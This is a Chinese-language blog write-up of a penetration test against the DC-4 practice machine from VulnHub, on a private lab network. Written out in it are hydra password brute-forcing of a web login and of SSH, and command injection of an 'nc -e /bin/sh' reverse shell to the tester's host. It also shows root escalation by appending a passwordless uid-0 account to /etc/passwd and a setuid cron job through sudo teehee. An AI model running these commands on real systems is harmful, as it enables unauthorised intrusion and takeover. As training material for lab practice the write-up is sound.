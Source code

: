```yaml
---

title: DC_4靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 渗透测试
tags: [渗透测试, DC]   # 可以是数组
top: false

---
```


# DC_4靶机渗透测试

[参考链接1](https://www.blacknight.top/2020/10/25/vulnhub_DC/#DC-4)

[参考链接2](https://www.anquanke.com/post/id/178658#h3-5)

[参考链接3]([DC4靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1803027?from=article.detail.1801074))

[参考链接4]([DC4-靶机_Au-CSDN博客](https://blog.csdn.net/Auuuuuuuu/article/details/100059696))



### 一、信息收集

- 扫描主机以及端口

[![R8FaCD.png](https://z3.ax1x.com/2021/06/26/R8FaCD.png)](https://imgtu.com/i/R8FaCD)

- 进入192.168.0.151：80

![image-20210626115918645](http://cdn.mxrblog.cn/image-20210626115918645.png)



- 可以看到上面说的是管理员信息系统登陆，于是以用户名为admin，用hydra进行密码爆破

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.151 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image-20210627222833305](http://cdn.mxrblog.cn/image-20210627222833305.png)

- 可以发现账号admin的密码是happy，登录一下看看，发现我们可以使用的几个命令

![image-20210627223132593](http://cdn.mxrblog.cn/image-20210627223132593.png)

![image-20210627232008658](http://cdn.mxrblog.cn/image-20210627232008658.png)



- 思路：网页上执行的是ls -l 命令，我们可以将网页发送的命令用brupsuite替换

![image-20210627231931042](http://cdn.mxrblog.cn/image-20210627231931042.png)

- 替换radio的参数为nc -e /bin/sh 192.168.0.145 4444

![image-20210628001837189](http://cdn.mxrblog.cn/image-20210628001837189.png)

![image-20210628001855516](http://cdn.mxrblog.cn/image-20210628001855516.png)

- 登录后获取交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

- 得到home文件夹下有三个用户目录：charles，jim，sam ，并在jim用户下发现了密码本

![image-20210628004915269](http://cdn.mxrblog.cn/image-20210628004915269.png)

- 将密码本复制，并用hydra破解用户密码

```
hydra -L user -P userpwd -t 6  192.168.0.151 ssh
```

![image-20210628012451900](http://cdn.mxrblog.cn/image-20210628012451900.png)

- 登陆后发现有新邮件，进入、/var/mail查看

![image-20210628014055664](http://cdn.mxrblog.cn/image-20210628014055664.png)

- 发现邮件里的charles用户密码为^xHhA&hvim0y 进行登录
- 然后用sudo -l 发现charles可以使用的root命令teehee，用teehee –help发现这是将信息写入写出的工具

![image-20210628021417969](http://cdn.mxrblog.cn/image-20210628021417969.png)

- 用teehee向passwd添加用户

- `/etc/passwd` 各个字段的含义：

  ```
  username:password:User ID:Group ID:comment:home directory:shell
  ```

  密码我们直接置空，uid和gid都是0，也就是root用户，也就是说覆盖了root账户，密码为0

  写入用户

  ```
  echo "admin::0:0:::/bin/bash" |sudo teehee -a /etc/passwd
  ```

![image-20210628022918219](http://cdn.mxrblog.cn/image-20210628022918219.png)



- 另一种解决方法，向任务计划中添加任务



```
通过定时任务执行脚本提权，向/etc/crontab文件中写入新的定时任务

通过teehee的sudo提升权限以 root身份写入crontab计划任务通过执行获取root权限

echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab 
时间部分全部填写为*，默认这个定时任务每分钟执行一次。

通过执行的脚本将 /bin/sh 的权限修改为4777，这样就可以在非root用户下执行它，并且执行期间拥有root权限。
```



![image-20210628024031625](http://cdn.mxrblog.cn/image-20210628024031625.png)
